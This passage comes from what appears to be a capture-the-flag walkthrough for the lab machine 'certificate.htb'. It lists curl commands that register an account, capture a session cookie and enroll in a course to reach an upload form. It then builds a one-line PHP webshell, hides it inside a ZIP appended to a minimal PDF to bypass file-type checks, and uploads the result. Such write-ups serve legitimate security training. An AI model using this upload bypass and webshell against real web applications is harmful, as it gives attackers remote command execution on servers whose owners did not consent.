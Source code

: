 
### 3. Web Application Exploitation

#### User Registration
```bash
curl -X POST -d "first_name=Test&last_name=User&email=test@test.com&username=testuser&password=password123&password-confirm=password123&role=student" http://certificate.htb/register.php -L
```

#### User Login and Session Cookie Capture
```bash
curl -c cookies.txt -X POST -d "username=testuser&password=password123" http://certificate.htb/login.php -L
```

#### Enroll in Course to Access Upload Functionality
```bash
curl -b cookies.txt -s "http://certificate.htb/course-details.php?id=1&action=enroll"
```

#### Create Concatenated ZIP File for Upload Bypass
```bash
# Create a valid PDF file
cat > valid.pdf << 'EOF'
%PDF-1.4
1 0 obj
<<
/Type /Catalog
/Pages 2 0 R
>>
endobj
xref
0 4
trailer
<<
/Size 4
/Root 1 0 R
>>
%%EOF
EOF

# Create PHP webshell
echo '<?php echo shell_exec($_GET["c"]); ?>' > cmd.php

# Create ZIP with PHP shell
zip payload.zip cmd.php

# Create concatenated file
cat valid.pdf payload.zip > final_concatenated.pdf
```

#### Upload Malicious File
```bash
curl -b cookies.txt -X POST -F "file=@final_concatenated.pdf" -F "info=How to be the employee of the month! - Quizz-1" -F "quizz_id=5" "http://certificate.htb/upload.php?s_id=5"
```

---